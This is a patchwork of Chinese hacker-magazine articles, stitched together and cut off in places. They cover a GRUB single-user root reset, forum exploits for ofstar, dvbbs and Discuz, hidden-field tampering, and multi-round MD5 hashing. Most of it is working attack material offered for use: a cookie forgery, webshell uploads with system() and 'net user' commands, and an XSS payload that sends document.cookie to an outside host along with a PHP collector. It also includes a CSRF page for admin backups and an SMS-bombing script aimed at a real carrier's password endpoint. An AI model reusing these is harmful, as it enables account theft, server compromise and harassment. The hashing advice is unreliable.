当 IP 和密码变灰就说明连接远程代理成功。现在可以选择我们需要嗅探的网卡，点击蓝色的开始按钮，我们的远程嗅探之旅就开始了。捕获规则设置和我们前面说过的本地设置一样，我就不多说了。

# 三、后记

这篇文章送给以前在 9836.com 的好友 RICK 和小猪。记得以前 RICK 写过很多经典教程，如 Linux 入侵、扫描器编写等，在国内都是他开的先河。我想很多朋友都看过，可是随着时间流逝，他已不再接触网络了，他的无私精神和我以前写过的教程也被人们淡忘了。记得 CommView 是看完他的资料后才会用的，所以这只能算他以前东西的补充吧！

（本文涉及到的程序 COMMVIEW5.0、CommView Remote Agent，先声明收藏）


# 一、前言

玩腻了 Windows 的朋友是不是现在都用 Linux 了呢？没错，选择 Linux 的确是个正确的选择，不管是对于发展前途或者安全性来说，Linux 绝对可以超过 Windows。但是世界上没有绝对安全的操作系统或软件，就算是硬件设备也不可能做到绝对安全，所以“安全”这个词的范围很广。今天我们就来讲讲 Linux 操作系统启动的时候有哪些安全隐患。

用过 Linux 的朋友都应该知道，Linux 以前是用 Lilo 做系统引导的。由于 Lilo 不能支持大硬盘，而且我们现在使用的机器基本都是 40G、80G 或者更大的硬盘，所以 Lilo 已经过时了，而替代它的是 Grub（由于篇幅问题，Grub 的概念请大家查阅相关资料，这里我不再讲解）。


提起 grub，我们首先就会联想到物理系统。大家以前都是讨论网络上或者系统上的安全问题和漏洞信息，但是我们同样不要忽视另一方面的安全，那就是物理安全，因为 Linux 启动的时候是用 grub 来做引导的。

# 二、默认启动流程

启动时如图 1 所示，大家从图 1 中就可以看到本地电脑上就一个操作系统（Red Hat Linux）。如果机器上还有其他操作系统，那么 Grub 列表里就会显示出来；如果我们到了这个画面什么也不动的话，默认倒数 10 秒钟就开始引导系统，这时直接按回车也可以直接来引导系统。


图1


图2

图 2 就是正在启动 Linux 默认的服务。经过一段时间的等待，我们终于可进到登录 Linux 系统的界面了（由于我演示虚拟机资源的问题，我用了 init 3 模式来启动，也就是文本模式界面登录，原理跟图形界面登录效果是一样的），如图 3 所示。Linux 默认的管理员账号是 root，但是如果我们忘记了管理员密码该怎么办？不知道管理员密码可就什么也干不了。别着急，我来告诉大家遇到这种情况如何处理。


图3

# 三、忘记密码的处理方法

现在我们重启 Linux，等到了图 1 的时候，我们按一下键盘的“E”键，进入图 4 的地方，然后我们选择第 2 个项再按一下键盘的“E”键，最后进到自定义配置启动等级的地方，我们在后面写上“1”，代表以 1 模式（单用户）来启动系统。配置完后的样子大家可以参考图 5。完毕后按回车回到图 4 界面，然后按“B”键启动系统。这里大家会问，为什么要用 1 模式来启动呢？因为单用户模式不需要账号和密码登录，而且登录后直接具有 root 权限，大家说这样安全吗？


图4


图5

# 四、修改管理员密码

进入系统后我们用 id 来看一下我们的权限，果然是 root 权限。这时我们就用 passwd 命令来修改 root 的密码，如图 6。

改以后我们就可以直接使用修改过的密码登录了。大家想想这样多恐怖啊，这样不是谁上主机都可以用了嘛，还有什么安全性可言啊！不要着急，对付这个漏洞我们有 2 个方法：就是给 Grub 加密码，如果不知道 Grub 密码的话就别想修改启动类型；或者直接把系统锁住，不让启动，除非用户知道 Grub 密码。这样的话就应该安全很多了，我们现在就来试一下。

```bash
sh-2.05b# id
uid=0(root) gid=0(root)
sh-2.05b# passwd root
Changing password for user root.
New password:
Retype new password:
passwd: all authentication tokens updated successfully.
sh-2.05b#
```

图6

## 1. Grub 加密

重启进到系统后，我们来看一下默认的 grub 配置文件。

```conf
## vi /boot/grub/grub.conf
# 这个就是grub的配置文件了（也很重要哦）
default=0
timeout=10
splashimage=(hd0,0)/grub/splash.xpm.gz
title Red Hat Linux (2.4.20-8)
root (hd0,0)
kernel /vmlinuz-2.4.20-8 ro root=LABEL=/
initrd /initrd-2.4.20-8.img
```

以上就是 grub 的默认配置。我们可以把给 grub 加密的密码放到这个配置文件里面，当重新启动机器的时候就不能随意进行操作了。但是这种把密码直接放进去的方法很危险，很容易被发现，所以我们要用 md5 的加密方式来做出 grub 密码。

```bash
## grub-md5-crypt
Password:
Retype password:
$1$G1HCj0$4Epe/7gv/PRDBjBw5kyzm0
```

好了，我们已经得到了密码密文。我们再次进入 grub.conf 文件里，在 `default=0` 上面一行写上：

`password --md5 $1$G1HCj0$4Epe/7gv/PRDBjBw5kyzm0`

千万记住密文，不要复制错或者漏字，否则就不是你输入刚才密码的意思了。

如果我们想锁住系统，我们可以在 `root (hd0,0)` 前面加上 lock，例如 `lock root (hd0,0)`，完整配置如下：

```conf
password --md5 $1$G1HCj0$4Epe/7gv/PRDBjBw5kyzm0
default=0
timeout=10
splashimage=(hd0,0)/grub/splash.xpm.gz
title Red Hat Linux (2.4.20-8)
lock   root (hd0,0)
kernel /vmlinuz-2.4.20-8 ro root=LABEL=/
initrd /initrd-2.4.20-8.img
```

配置完后保存退出，重新启动机器。

# 2. Grub 加密后的效果

如果刚才配置正确的话，启动到 Grub 界面 10 秒过后就会出现如图 7。这就说明系统已经被锁住了，只要输入正确密码就可以。我们按回车回到图 1 的位置，这时按 `p` 键（意思就是输入密码），然后输入密码，如图 8。密码如果正确，那么就可以以任何模式来启动 Linux。


正常进入也可以，这回我们就不用害怕非法使用你计算机的人进入你系统了。

# 五、总结

Grub-md5 加密这种方法需要几点注意事项：

- 1. 编辑 `grub.conf` 的格式千万不要错。

不知道大家是否看懂了本篇的操作？若有对文章不清晰的朋友请到 x 的论坛上来一起讨论。

# ofstar 论坛漏洞分析和利用程序

ofstar 是运行在 PHP 系统下的一个论坛系统，它支持超大数据量，面向大型论坛使用者，具有搜索、定位与海量数据处理等功能。在多个论坛漏洞爆发时期，它以多重安全防护而知名，但也存在致命漏洞。

用关键词在搜索引擎可找到大量相关页面。论坛某页面 `read.php` 存在较大安全隐患，先看两行代码：

```php
$articlearray = openfile("$dbpath/$fid/$tid.php");
$topic_detail = explode("|", $articlearray[0]);
```

可以看出该句直接打开 `forumdir/版块名/帖子数.php` 并以 `|` 分隔读取内容。由于路径可构造，可读取到用户资料中的字段，并在页面中显示，形成可利用点。


这样的话，我们就可以利用伪造 Cookies 欺骗来登录论坛了。

可以直接用浏览器修改 COOKIE 来欺骗登录；若在网页中找到管理员账号并结合前台/后台逻辑，即可模拟管理员身份。需要注意修改的 COOKIE 格式如下：

```text
lastP=...; ofstaradmino=管理员用户名; ofstaradminpwd=管理员散列;
oloffset=202; ofstario=用户名; ofstariowd=散列;
lastvisit=1105276862
```

手工操作较繁琐，可借助自动截取管理员密码并自动进行 Cookies 欺骗登录的工具。先通过搜索定位站点，再找到管理员名字与帖子路径，提取其密码散列。


例如输入某帖子路径并点击“获取密码”，即可截取管理员豆角的 MD5 密码散列（32 位），再用于后续登录利用。

# 黑客研究院

击“直接登陆”按钮，程序会自动构造 Cookies 进行登陆，如图 3。单击管理栏的“超管”可直接进入后台！如图 4。

```html
<input NAME="MyFile" TYPE="file">
<input VALUE="提交" TYPE="submit">
</form>
```


什么意思大家都看得懂，不多说了，我们再去看看这个论坛的首页地址是什么，回到首页看到地址是：http://www.XXXX.com/e/index.php（XX 是我做了掩饰，对不同的网是不一样的）……改名字为 phpft.php，传上去，如图 5，成功了。


选择后台的论坛管理的风格模板设置，插入以下代码（其实上传 shell 部分和 PHPWind 一样）。


```html
<style type="text/css">
</style>
<!--
EOT;
?>
<?copy($_FILES[MyFile][tmp_name], $_FILES[MyFile][name]);?>
<\S>
<?php
print<<<EOT;
-->
```

就这样拿到了 webshell，接着怎么做就自己去想了，我的任务完成！最后说下防护吧……所以大家还是快去官方网站找补丁吧。

```html
<form ENCTYPE="multipart/form-data"
ACTION="http://www.XXX.XXX/XX.php"
METHOD="POST">
```


在 Web 程序设计中，处理表单提交的数据是客户端向 SERVER 传递数据的主要方法，表单数据的提交方法有两种，Post 方法和 Get 方法……

传递给表单数据处理程序，Post 方法一般不会在服务器上留下痕迹……不管是 ASP、PHP 还是 CGI 程序，表单提交的作用都大同小异，所以这里仅以 ASP 为例。

# 一、利用表单本地提交突破入侵限制

既然表单是客户端与服务端的重要数据传递方法之一，那么它的安全性就难免会出现问题。

## 1．上传非法文件

某同学录的 popwindowupload1.asp 的客户端代码如下：

```html
<Script language="javascript">
```

```javascript
function mySubmit(theform)
{
    if(theform.big.value=="")
    {
        alert("请点击浏览按钮，选择您要上传的jpg或gif文件!")
        theform.big.focus;
        return(false)
    }
    else
    {
        str=theform.big.value;
        strs=str.toLowerCase();
        lenS=strs.length;
        extname=strs.substring(lenS-4,lenS);
        if((extname!=".jpg")&&(extname!=".gif"))
        {
            alert("请选择jpg或gif文件!")
            return(false)
        }
        return(true)
    }
}

<input type="hidden" name="act" value="upload">
<input type="hidden" name="filepath" value="/alumni/class/classimage">
<input type="submit" name="Submit2" value="开始上传">
```

很明显这个上传文件在客户端利用 SCRIPT 限制了上传类型，虽然用 SCRIPT 可以减轻 ASP 程序的负载，但也同样存在着不安全的另一面。如果只是在客户端做限制，并在服务端不限制上传类型或不禁止外部提交，那么它并不能阻止我们上传程序禁止的 ASP、CER、PHP 等文件，只要我们在本地构造一个表单也能轻松地上传这些文件。

构造的表单主要代码如下：

```html
<form name="mainForm" enctype="multipart/form-data" action="http://www***.com/alumni/class/pic/upfile.asp?userid2=" method="post">
<tr>
<td width="74" align="right" height="26">标题</td>
<td width="399">十三少</td>
</tr>
<tr>
<td width="74" align="right" height="26">照片说明</td>
<td width="399">十三少S照片</td>
</tr>
<tr>
<td width="74" align="right" height="26">图片路径</td>
<td width="399"><input type="file" name="big"></td>
</tr>
<tr align="center">
<td colspan="2" height="26">
<input type="hidden" name="act" value="upload">
<input type="hidden" name="filepath" value="/alumni/class/classimage">
```

```html
<input type="submit" name="Submit2" value="开始上传">
<tr><td align="center">
<td colspan="2" height="26" class="dl">只支持jpg、gif文件，图片大小在150K以内，上传时请耐心等待</td></tr>
</form>
```

只要将前面查看得到的代码中的验证文件类型的 SCRIPT 删掉，然后再修改 ACTION 后的 URL，保存为 HTML 文件即可。

## 2．突破表格注入限制

这个和前面的差不多就不再多说了（呵呵，其实是找不到实例啦），另外字符输入的长度限制也差不多，只要你看得懂这些 HTML 语言。

# 二、HIDDEN 隐藏字段缺陷

## 1．还是 SQL 注入问题

目前 SQL 注入攻击仍是入侵中的一大热点，不过随着时间的推移，一般的大型网站都已经将明显的注入点打好补丁了，但是一些隐藏得比较深的注入点却还是有不少，除非将它所有的代码都翻新一遍。明显的注入点如：asp?id=*、输入框等都已经过滤了，但这就能彻底杜绝黑客的入侵吗？回答当然是 NO，这就要提到本文的重点 HIDDEN 隐藏字段了。如图 1 是某网游官方站点的帐号激活界面。


查看源码，搜索“HIDDEN”字符串。


如图 2，看到了吗？这个 `<input name="user_name" type="hidden" id="user_name" value="norfolk">`。只要它没有在客户端做任何限制，这就是一个注入点。将“user_name”的值“norfolk”改为想要注入的代码，然后和前面的一样将“ACTION”改为相应的 URL，保存为 HTML 文件。不过它的安全还不错，提交后返回错误提示窗口，很显然它在服务端禁止了外部提交。

# 黑客研究院

## 2．非法修改其他用户密码

典型的代表是 leadbbs V2.77 的那个密码修改漏洞，任何注册用户都可以修改管理员密码，从而入侵服务器，进而拿下主机。登录后修改密码，查看源码，其主要漏洞代码如下：

```html
<form action=usermodify.asp method=post name=form1 ...>
<tr><td align=middle height=25><p>* 用户名称：</p></td>
<td height=25><p>norfolk</p></td></tr>
<tr><td align=middle height=25><p>* 你的密码：</p></td>
<td height=25>
<input class=fmipt name=submitflag type=hidden value=52norflk>
<input class=fmipt name=form_id type=hidden value=265>
```

其中我的 form_id 的值为 265，在管理员列表中查看管理员 ID，然后将它替换 265，再将 ACTION 的 URL 相应修改一下，保存为 HTML 文件再提交，就可以将管理员的密码改成 52norfolk。这个漏洞早在 2003 年 12 月就已经公布，这里拿出来只是为了说明一下这个 HIDDEN 隐藏字段的危害。

### 3．任意修改价格以达到低价甚至不花一分钱网上购物

早在几年前，国内国外的一些大型网上购物网站就已经出现过类似的漏洞。这些网站的后台程序的验证机制并不健全，以至于可以在外部提交数据，于是便出现了低价甚至不花一分钱购买商品的事件，导致这些网站造成重大的经济损失。

希望以后的程序员在编写程序时能够尽量细心。这里我就不再将它的利用过程写出来了，反正它们的利用过程都基本相似。

最后给大家介绍老外写的一个不错的检测 WEB 应用程序安全性的工具，以下是安全焦点的介绍：Achilles 是一个设计用来测试 web 应用程序安全性的工具。它是一个代理服务器，在一个 HTTP 会话中扮演着“中间人”的角色。

有兴趣的朋友可以自己下载研究研究，它的下载地址：http://www.xfocus.net/tools/200403/achilles-0-27.zip

# 三、后记

到这里还想说一下解决方法吧。首先当然是禁止外部提交，这里有种不错的方法，大家可以参考一下：

```asp
<%
server_v1=Cstr(Request.ServerVariables("HTTP_REFERER"))
server_v2=Cstr(Request.ServerVariables("SERVER_NAME"))
if mid(server_v1,8,len(server_v2))<>server_v2 then
  Response.Redirect "Fuck-Hacker.asp"
end if
%>
```

但这不能彻底杜绝黑客对传递的 HIDDEN 数据的修改，前面那个 ACHILLES 就能修改，所以在服务端还要有健全的验证机制。


王鹏

本文中将介绍一种方便实用的方法来加密密码，使得即使你的密码只有一位数字，加密后的数据也是非常安全，很不容易被破解出原文。说到这大家可能首先想到就是用 MD5 加密数据，本文的加密方式和 MD5 有很密切的关系。

先说点题外话，前段时间网上大量报道山东大学王小云教授成功破解 MD5 的事情。MD5 是在国内外有着广泛应用的杂凑函数算法，它曾一度被认为是非常安全的。然而王小云教授发现可以很快找到 MD5 的“碰撞”。

……这样两份合同的真伪性便无从辨别。王小云教授的研究成果证明了利用 MD5 算法的碰撞可以严重威胁信息系统安全。现在对于 MD5 的通常破解方法是暴力破解，也就是穷举法。

我采用的方法是 MD5 多重加密，也就是把密码用 MD5 多次加密。当你的密码位数是一位，假如是“2”，经过 MD5 32 第一次加密得到 32 位密文，再将其继续 MD5 加密……mw1 才能得到原文“2”。第一步就是要破解 mw2，就相当于首先要破解一个 32 位的密码（mw1 是 32 位），这是件非常困难的事，需要付出相当大的代价才能做到，只有前面的破解完成了才能进行后续的破解，破解 mw1 得到原文“2”。这样看来用这种方法加密密码，无论你的密码复杂度如何，安全性能都是非常高的。这只是加密两次的情况，如果你对密码进行更多次的加密，而且加密的次数是自定义的、别人未知的，要想反向暴力破解得到原文基本上是不可能的事情。下面，我们讲讲如何用 ASP 编程来实现上述功能。

使其与当前用的多重加密方式相匹配。转化原理是：将数据库中的密文按照相关规则进行再次加密，加密的次数是当前多重加密方式的次数减 1。注意：转换文件和 MD5 文件是对应起来的，如果你修改了 MD5 文件，转换文件也要做相应的修改。并且，这转换文件是针对于已采用了 MD5 加密的密码，如果你现在的密码是明文（未加密的），该转换文件不适合这种情况，需要将转换文件中相应的地方进行修改。

```vb
function multi_md5(str)
  dim i,temp,str2
  str2=str
  for i=1 to len(str)+3
    temp=md5(str2)
    str2=temp
  next
  multi_md5=str2
end function
```

这里写了个简单的函数来循环调用 MD5 加密密文。从函数中可以看出变量 str 是需要加密的字符串，加密的次数为“len(str)+3”，是要加密字符串长度加上常量 3。如果加密字符串“ABC”，得到的加密次数就是 len("ABC")+3=6，这样加密出来的密文要想暴力破解就非常难了。加密次数也可以自己写表达式来实现，但有个规则：对于同一要加密的字符串来讲，表达式得出的结果必须是常量，否则就无法用加密当前输入得到的密文和已经存在的密文做比较判断输入的数据是否合法，因为加密的次数不一致，得到的密文肯定不一致。

其实你还可以在这个基础上加一点变化，那就更加安全了。比如说，除第一次加密，以后的每次重复加密都只取上一次密文中的一部分来进行加密，或者是利用生成的密文构造更长的密文来进行加密。因为是任意构造的密文，所以是非常难破解的。函数例子如下：

```vb
function multi_md5(str)
  dim i,temp,str2
  str2=str
  for i=1 to len(str)+3
    if i=1 then
      temp=md5(str2)
      str2=temp
    else
      temp=left(md5(str2),12)
      str2=temp
    end if
  next
  multi_md5=str2
end function
```

把这个函数放到你的 MD5 文件中，在密码验证的时候调用 multi_md5() 函数就可以了。我已经把 16 位和 32 位加密的 MD5 文件做了修改（md5_16.asp, md5_32.asp），用它替换你以前的 MD5 文件就可以了。另外我还写了两个对应的转换文件（cv_16.asp, cv_32.asp），可以将你指定数据库中指定字段中的已加密数据转换为可以和当前用的多重加密方式相匹配。

函数中 left(md5(str2),12) 就是取密文的前 12 位，当然你还可以取密文的其他部分，或者是密文与其自身某部分的多次字符串连接。按照这种思路加上一定的逻辑变换，你还可以做出更加简单实用的加密方法。本文中讲的多重加密方法并没有太多的技术含量，在原理和实现上都是非常简单的，算是一种比较好的加密思路吧。


张佳

小弟是江苏移动动态地带用户，最近闲来无聊，下了 N 多个彩铃。大家都知道，每次管理彩铃修改设置都必须先填写自己的手机号码和密码登录江苏移动彩铃的网站（http://211.138.197.20），由于小弟平时就是个生性懒惰的人，能偷懒的一定偷懒，不能偷懒的也要想办法偷懒，于是我就想查看彩铃首页的源文件，想自己做个外部表单提交的页面，预先设置好手机号码和密码，那么以后登录就只要点一下就可以直接进去了。就在我查看源文件的时候……

- 1. 意外收获，发现江苏移动留给我们的手机炸弹！

按照惯例，我打开源文件后先查找“`<form`”，找到后发现它里面的“action”标签是空的，而且最后提交的按钮是用 javascript 和图片做的，于是我就只能开始在源文件中的 javascript 脚本里找提交地址。找着找着，我突然发现“loginform.action='http://211.138.197.20:80/user/querypwd.do';”这么一句，不像是登录验证提交地址呀？有点像找回密码的提交地址。可是彩铃首页并没有什么找密码的按钮啊，再说了，彩铃的密码是 1861 查询铃声的密码呀，如果忘记的话就只能带了身份证去移动营业厅申请密码重置。管它呢，先弄下来试试，于是我就先做了个 bomb.htm 的页面，文件 bomb.htm 内容如下：

```html
<html><head>
<meta http-equiv="Pragma" content="no-cache">
...
```

```html
<meta http-equiv="Content-Type" content="text/html; charset=gb2312">
</head>
<body>
<form name="loginform" action="http://211.138.197.20:80/user/querypwd.do" method="post">
  用户名：<input name="phonenumber" type="text" class="forms" id="phonenumber" size="12">
  密码：<input name="password" type="password" class="forms" id="password" size="12" maxlength="6">
  <input type="submit" value="登录">
</form>
</body></html>
```

然后打开 bomb.htm 这个文件，在用户名框中输入了我的手机号码 139618*****（后 5 位隐去），点击“登录”后跳转到 `http://211.138.197.20/user/querypwd.do`，页面提示“发送用户密码短消息成功”。随后手机收到短信，内容为“139618***** 您好，您的用户密码是 *****”。作者由此发现该地址确为找回密码提交地址，并进一步分析彩铃首页与密码机制，确认旧找回密码机制仍可被触发，只是前端按钮被去除。

# 2. 炸弹脚本内容

发现漏洞后，可在取密码时无需验证码，只需手机号即可触发。脚本利用该“漏洞”批量发送短信。下面给出两个文件 `index.asp` 和 `bomb.asp` 的内容。

bomb.asp 的内容：

```asp
<%
dim hp
hp=request.querystring("num")
if not hp="" then
%>
<html><head>
<meta http-equiv="Pragma" content="no-cache">
<meta http-equiv="Content-Type" content="text/html; charset=gb2312">
</head>
<body>
<form name=loginform action="http://211.138.197.20:80/user/querypwd.do" method=post>
  用户名：<input value="<%=hp%>" name="phonenumber" type="text" class="forms" id="phonenumber" size="12">
  密码：<input value="1" name="password" type="password" class="forms" id="password" size="12" maxlength="6">
  <script>this.document.forms[0].submit();</script>
</form>
</body></html>
<%
else
response.write "小乖乖，不要乱看，出错啦"
end if
%>
```

index.asp 的内容：

```asp
<%
dim hp
hp=request.querystring("num")
if not hp="" then
%>
<html>
<head>
<meta http-equiv="Content-Type" content="text/html; charset=gb2312">
<meta http-equiv="refresh" content="1">
</head>
<body>
  <iframe src="bomb.asp?num=<%=hp%>" width=0 height=0></iframe>
  <iframe src="bomb.asp?num=<%=hp%>" width=0 height=0></iframe>
  <iframe src="bomb.asp?num=<%=hp%>" width=0 height=0></iframe>
  <iframe src="bomb.asp?num=<%=hp%>" width=0 height=0></iframe>
</body></html>
<%
else
response.write "出错啦"
end if
%>
```

# 3. 脚本分析

`bomb.asp` 负责发送请求，并通过 `this.document.forms[0].submit();` 自动提交。`index.asp` 通过内嵌多个 iframe 调用 `bomb.asp`，再用 `<meta http-equiv="refresh" content="1">` 持续刷新，实现连续触发。将这两个文件部署到支持 ASP 的空间后，只需在 URL 参数中传入手机号（如 `index.asp?num=13961800000`）即可反复触发短信发送。

# 4. 防范措施

其实移动很容易就能防止别人用自己的系统炸自己的号码，最简单的就是彻底删除取密码功能，把 `http://211.138.197.20:80/user/querypwd.do` 这样的页面删除就 OK 了。另外值得注意的是，现在越来越多的网站在登录时都设置了需要验证码，其实移动也可以这样弄一个，这样就算以后再改版、再忘记删除什么东西的话，也不至于造成这样的后果。就算移动想标新立异不设置验证码的话，也可以弄个登录时间间隔验证、防止外部表单提交等等，关键是制作者细不细心，有没有责任心。


```html
<meta http-equiv="refresh" content="0;url=http://bbs.dvbbs.net/showerr.asp?BoardID=0&ErrCodes=12&action=<script>document.location='http://www.77yan.com/saiy.php?'+%2Bdocument.cookie</script>">
```

最近无意逛论坛的时候发现了有些新手总在问关于跨站的问题，让人很郁闷的是，似乎大家都还在 img 标签的那个年代。假设是 dvbbs 现在的版本呢？又怎么去利用跨站呢？我们和 img 标签的年代久了，这些东西虽然是不存在了，但是 dvbbs 很坚持地把跨站一直留着。大家发现没？其实在大家登录论坛的时候，假设密码错误你会看到：`http://bbs.dvbbs.net/showerr.asp?BoardID=0&ErrCodes=12&action=...` 这样的地址，其实 action 后面是 IE 的编码。我们把它改成：`http://bbs.dvbbs.net/showerr.asp?BoardID=0&ErrCodes=12&action=<script>alert(document.cookie)</script>`，你会看到你现在的 cookies（如图所示）。

当然，我们不是要看自己的 cookies，这我知道，但是我们可以使用社会工程学欺骗别人给我们“发”！而这绝对不是没有用的。另外，这又有另外一个思路了：欺骗！首先我们在自己空间上建立一个文件，我用的是 php，名为 saiy.php，这个文件的内容是：

```php
<?php
$info = getenv("QUERY_STRING");
if ($info) {
  $info = urldecode($info);
  $fp = fopen("test.txt","a+");
  fwrite($fp, $info."\n\n\n");
  fclose($fp);
}
?>
```

这段代码是谁写的，我不记得了，我稍微改了一下，改为 a+ 了，cookies 保存在 test.txt 里，假设 test.txt 不存在则会自动建立它，所以不用管它了。我们先来做一个拿 cookies 的页，代码为：


最后我们把它保存为 `hidden.html`，进入这个就会转到我空间。当然会带着浏览者的 cookies 一起。我们自然不能这样就完工了，欺骗不了人的。我们必须给它看个页面，一个正常的页面。其实我们可以用很多种方式，我这里使用的是框架。首先我们可以利用被我们入侵的站点，在它首页里插上这么一句话：

```html
<iframe frameborder=0 width='00%' height=00 scrolling=no src='http://www.77yan.com/hidden.html'></iframe>
```

这个框架是 0 高 0 宽的，你就别担心它会被发现。这样，你只要把这个页给别人看，标题你随便给，只要说得好，一定会有人中招！我曾经在某黑客站点用过，标题是“谁黑掉了这个站，报出名来”，没想到进去看的人还真多。这里顺便说一下欺骗了，其实要欺骗对方进了一个站，不只是能让他打开页面那么简单了，我们还可以叫他给我们提交数据。大家知道 dvbbs 有个备份功能吗？其实，我们只要写个页面，欺骗管理员，它就可以给我们工作！

我们先去上传一个改了后缀的 asp 后门，我们建立一个 html 页，代码为：

```html
<form method='post' action='论坛网址/ADMIN/data.asp?action=BackupData&act=Backup'>
  <input type='hidden' name='DPath' value='你传的图片地址'>
  <input type='hidden' name='bkfolder' value='saiy'>
  <input type='hidden' name='bkDname' value='saiy.asp'>
  <input type='submit' value='确定'>
</form>
<script language='javascript'>
  this.document.forms[0].submit();
</script>
```

只要你能欺骗管理员进入的话，便会在他论坛目录下生成 `saiy/saiy.asp` 了。当然，我们还可以制作其他的欺骗用页面来完成其他的需要，比如短消息之类的。只要肯想，没有做不到的，只有想不到，希望大家可以举一反三，思想不可以固化！

## Discuz!2.5F 上传前


浅蓝的辐射鱼 [F.S.T]

之所以会去看 Discuz!2.5F，是因为听说它有漏洞。然后在 FireFox 老大的领导下，我和我同学先把代码看了一遍，发现了 cookie 没过滤，但是不可利用。我比他们都笨，所以就跑去看上传部分的代码。

php 呢？按规律它的名字最前面就是 myshell.php.bak，后面带一大堆的乱七八糟的东西。废话不说了，测试一下吧！在这里我提交的 myshell.php.bak.php 的文件内容为 `<?system($GET[c]);?>`，这段代码的意思就是调用 system 函数来执行 CMD。

## 一、研究

首先看了一下代码上传文件那部分，过滤很变态。可以确定的是，很难去得到上传后的文件名，但是实际测试下失败了后，氢哥还有 FireFox 老大都说应该是很难获取到文件名。这部分研究交给比较强的老大们吧，但是在这里可以绕过文件后缀的修改，传一个可以执行的 php 文件是可能的。

关于里面上传文件的命名，大家有兴趣的可以自己去看。鱼鱼不好在这里多说来骗稿费了，只在这里说两个地方。首先上传的文件名会经过：

```php
$filename = str_replace('/', '', base64_encode(substr($filename, 0, 20)));
```

在这个过程中，文件名被 base64 了，然后又要经过：

```php
if(in_array($attach_ext, array('php','php3','jsp','asp','aspx','cgi','pl')))
    $extension = $ext.$extension;
```

这段代码来判断文件的类型重命名，可以看出，假设是 php、php3、jsp、asp、aspx、cgi、pl 等文件都会被改后缀为 `_.php` 之类的。那么，我们真的不可以突破了吗？其实不是的，只要是在 apache 下，我们还是可以传一个可以执行的 php 文件上去的。

直接按之前的路子去上传这个文件，显示上传成功，这次生成的文件名 `myshell.php.bak_W8Oq2yTOO1cP_.php`。正如我们先前所想的一样，`myshell.php.bak` 顺利被保留下来了，那么在 apache 下这个文件依然是可以被解释为 php 的。我们在浏览器中请求它查看，如图 1。


看到了没有？我不说大家也知道确实被执行了，只是我们没提交参数 c 的内容，所以程序报错说 system 不可以执行一个空的命令。好吧，我们提交 `?c=dir` 看看，如图 2，成功运行了 dir 命令。


## 二、实验

实验环境：Windows2000 Server + Discuz! 2.5 + Apache。先正常发帖提交一个 php 文件（如 myshell.php），该论坛会改名为类似 `myshell_WsmcKP7sgqK1h_.php`。但在 apache 下，若文件名中保留 `.php`，例如上传 `myshell.php.bak`，则可通过文件名解析特性使其仍被当作 php 解析并执行。

很显然，其实在这里，你是完全可以使用 `net user` 之类命令的，比如 `net user saiy 123 /add`。到这里为止，证明我们先前的判断是完全正确的。详细情况大家可以自己测试一下。鱼鱼测试的版本为 Discuz!2.5F_gb。

## 三、结语

由于鱼鱼数学不好，所以暂时不知道怎么去获取这个文件的文件名，有兴趣的可以写一个程序发包并且按它的算法去算。我想也许还是有一点出路的。鱼鱼不才，只能分析到这种程度，有结果的请一定要通知我。

# 巧用 Win2k

## 人性化设计隐藏主机

**本文实现环境：**  
两台操作机互联，被访问主机安装操作系统 Windows 2000；虚拟机一套，操作系统为 RH Linux 9.0。

**本文实现原理：**  
本次原理非常简单，利用存在 Win2000 操作系统下设置多个 IP 地址的特性，同时，借助 PortMap 进行端口映射。

上面简单叙述了一下原理，下面来仔细讲解一下操作过程。首先假设主机 A 与 B 相连，其中主机 B 上安装虚拟机 C，虚拟机 C 的操作系统为 RH Linux 9.0。在主机 A 上，右键网络邻居，选择属性，然后右键选择本地连接后（选择与主机 B 连接的网卡），选择属性，随后依次选择：Internet 协议（TCP/IP）→属性→高级。

在 IP 地址中添加另外一个与自己正在使用网段不同的 IP 地址，如这里主机 A 的 IP 地址为 192.168.10.10，而主机 B 的地址为 192.168.10.23，在此处添加 IP 地址为：1.1.1.2，如图 1。


图 1

随后，在虚拟机 C 中设置 IP 地址为 1.1.1.1。另外，通过配置虚拟机保证虚拟机和宿主主机能正确连通，那么此时主机 B 与在主机 B 上安装的虚拟主机 C 可以使用 1.1.1.1/24 该网段上的 IP 地址进行通信，如图 2、图 3。


图 2


图 3

毫无疑问，此时主机 B 不但能保证与虚拟机 C 进行正常通信，还可以与主机 A 进行正常通信。说到这里，大家应该很容易明白在 Win2k 中设置多个 IP 地址的作用了吧？这确实是一个很人性化的设计。

接下来，打开 PortMap，设置一条端口映射规则，其大概描述就是：任何外来进入本机的 TCP 端口 80 的数据，都跳转至 C 机，用图表示一下就是这样：

```
Any:IP ----> LocalHost:80（跳转）
80：设置如图 4。
```


图 4

也就是说，外来的请求实际上都转到了虚拟机 C 上。这时我从 A 通过 telnet 到 B 的 TCP 80 端口后，再使用 GET 方法就可以看到，我们实际上获得的是一个 Apache 的 logo，如图 5。


图 5

为了捕捉这个连接过程，我们在主机 B 上使用 `netstat -an` 命令可以看到来自远程主机 A（其 IP 地址为：192.168.10.10）的连接，如图 6。


图 6

从上图中不但可以看到远程主机 A 连入本地计算机 B，还可以看到本地计算机 B 连接至本地上的虚拟机 C。

此时在虚拟机 C 上使用 `netstat -tn` 命令查看 TCP 连接，可以很容易地发现来自宿主主机 B 对本机 TCP 端口 80 的请求，如图 7。


图 7

至此，我们就实现了从远程主机对本地计算机上虚拟主机的访问。那么，说了半天，这样的做法是什么呢？在整个过程中，宿主主机 B 实际上在虚拟主机 C 和远程主机 A 之间实现了一个只关不开的网闸。因为虚拟主机 C 与宿主主机 B 是在同一网段，因此我们不需要修改主机 B 在互联网上的实际 IP 和路由（记住，不修改路由这一点很重要），同时虚拟主机 C 也不需要创建任何路由即可实现与 B 的相互访问。但是由于没有路由，这就导致虚拟主机 C 无法连接远程主机 A，同时远程主机 A 也是无法连接虚拟主机 C。

正是因此，我们在本地计算机 B 上创建了 PortMap，这样就实现了 A 对 C 的访问；但是，由于我们只创建了单向的 PortMap，所以使 C 和 A 之间的通信受到了很大的限制，因此很显然这个过程使得主机 C 相对主机 A 是不可见的。

其实，如果将主机 C 想象为一个网络，那么就是我们常见的方式了，即在网关上做端口映射使得内部主机在外部可见，这里我们只不过通过对主机 B 进行了一下修改，使得虚拟主机 C 相对主机 A 隐藏而已。

这样的一个方法可以使主机 C 被隐藏起来，这样对于一些服务器主动连接客户端的后门等程序，就起到了相当大的制约。同时，这样的方法还能保证大部分服务正常运行，因此起到了一定的安全作用，大家可以善加利用。

